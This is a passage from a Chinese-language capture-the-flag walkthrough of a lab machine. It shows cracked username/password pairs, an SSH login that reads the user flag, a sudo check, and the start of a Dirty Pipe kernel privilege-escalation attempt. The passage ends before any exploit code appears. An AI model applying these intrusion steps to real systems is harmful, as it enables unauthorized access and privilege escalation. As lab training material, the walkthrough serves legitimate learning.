 很幸运，爆出来两个用户名和密码：`dexter/7ZwV4qtg42cmUXGX`和`travis/DJceVy98W28Y7wLg`。

# 4. Privilege Escalation

使用上面获取的用户名和密码登录ssh，在travis用户目录下发现了user.txt：

```shell
┌──(v4ler1an㉿kali)-[~]
└─$ ssh travis@172.16.86.143
travis@172.16.86.143's password:
Linux debian 5.10.0-8-amd64 #1 SMP Debian 5.10.46-5 (2021-09-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Nov  8 01:52:57 2023 from 172.16.86.138
travis@debian:~$ ls
user.txt
travis@debian:~$ cat user.txt
ICA{Secret_Project}
```

查看用户权限：

```shell
travis@debian:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for travis:
Sorry, user travis may not run sudo on debian.
```

另外一个用户同样没有权限，所以需要想办法进行提权。

## 1. Dirty_Pipe

第一种方式还是使用内核提权漏洞，检查内核版本和gcc版本：

```shell
travis@debian:~$ uname -a
Linux debian 5.10.0-8-amd64 #1 SMP Debian 5.10.46-5 (2021-09-23) x86_64 GNU/Linux
travis@debian:~$ gcc --version

gcc (Debian 10.2.1-6) 10.2.1 20210110
Copyright (C) 2020 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

